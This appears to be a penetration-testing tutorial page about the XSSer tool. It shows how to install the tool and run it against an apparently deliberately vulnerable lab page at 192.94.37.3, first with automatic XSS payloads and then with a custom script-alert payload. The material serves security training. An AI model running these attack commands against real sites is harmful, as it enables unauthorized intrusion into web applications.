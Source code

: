 <h1>$${\color{blue}xssser}\space {\color{blue}tool }$$</h1>

# xsser

Cross Site “Scripter” (aka XSSer) is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based applications.

It contains several options to try to bypass certain filters, and various special techniques of code injection.

Installed size: ```23.98 MB```
How to install: ```sudo apt install xsser```



```
xsser --help
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0cf1b74d-e084-4ed6-a104-9c5b8f183052)




![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ce41acb9-a118-42e5-bc61-9055211104ae)


> it is vulnerable web

#### ​Pass the URL to XSSER. Replace “​HelloWorld​” with “​XSS”​, this is done so that XSSer will substitute payload in place of "XSS" string.

```
xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2b9af22c-a031-4597-b91c-b5e6be3cf0e7)



### Trying various XSS payloads by using XSSer's ```--auto``` option.

```
xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/89c4b34b-e737-487c-8574-9100ef8b7d53)


#### ​Using custom XSS payload.

```
xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/cea49d65-765a-4cbf-b698-d83fe4b94c54)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/1092dc5a-61fe-44a6-bafe-572847cd81d7)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/09f732a0-a7b2-4166-bcd4-305f15b37246)





















